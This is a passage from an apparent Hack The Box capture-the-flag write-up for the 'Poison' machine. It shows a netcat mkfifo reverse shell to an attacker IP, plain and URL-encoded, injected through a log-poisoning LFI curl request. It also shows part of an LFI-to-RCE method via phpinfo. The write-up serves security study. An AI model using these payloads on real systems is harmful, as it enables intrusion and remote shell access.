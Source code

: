 	Original    :: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 4444 >/tmp/f
	URL ENcoded :: rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.31%204444%20%3E%2Ftmp%2Ff
	```
7. Invoke reverse shell
	```
	┌──(root💀kali)-[~/htb/poison/10.10.10.84/exploit]
	└─# curl 'http://poison.htb/browse.php?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fvar%2Flog%2Fhttpd-access.log&c=id;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.31%204444%20%3E%2Ftmp%2Ff'
	```
8. Obtained `www-data` shell
![]({{ page.img_path }}Pasted%20image%2020220831055657.png)

# Initial Foothold - 2
## TCP/80 (HTTP) - LFI2RCE via phpinfo
1. `phpinfo` RCE checklist
	- [ ] A LFI Vulnerability (`/browse.php?file=<LFI>`)
	- [ ] A page where phpinfo is displayed (`/phpinfo.php`)
	- [ ] file_uploads = on
	- [ ] able to write in the `/tmp` directory
2. Ensure `phpinfo.php` exists
	```
	┌──(root💀kali)-[~/htb/poison/10.10.10.84/loot]
	└─# curl http://poison.htb/phpinfo.php -v

	HTTP 200
	```
3. Ensure `file_uploads = On`
	![]({{ page.img_path }}Pasted%20image%2020220831225128.png)
	- `PHP` is going to accepts any file that gets uploaded into a cache directory, this is so because users are not able to access those files, but w/ LFI exploit, they are able to do so, able to do [LFI2RCE](https://yufongg.github.io/posts/LFI/#lfi2rce).
4. Intercept `phpinfo.php` w/ `burpsuite`
5. Check if we are able to temporarily upload a file
	1. Change `GET` to `POST`
	2. Add to end of `HEADER`
		```
		Content-Type: multipart/form-data; boundary=--asdf
		
		
		----asdf
		Content-Disposition: form-data; name="dummyname"; filename="test.txt"
		Content-Type: text/plain
		Security Test
		----asdf
		```
		![]({{ page.img_path }}Pasted%20image%2020220902005920.png)
		- It works, a temporary file is created
6. `phpinfo` RCE checklist
	- [x] A LFI Vulnerability (`/browse.php?file=<LFI>`)
	- [x] A page where phpinfo is displayed (`/phpinfo.php`)
	- [x] file_uploads = on
	- [x] able to write in the `/tmp` directory
7. `phpinfo` RCE 
	1. Download [`phpinfolfi.py`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py)
	2. Few things to change in [`phpinfolfi.py`](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py)
		1. `PAYLOAD`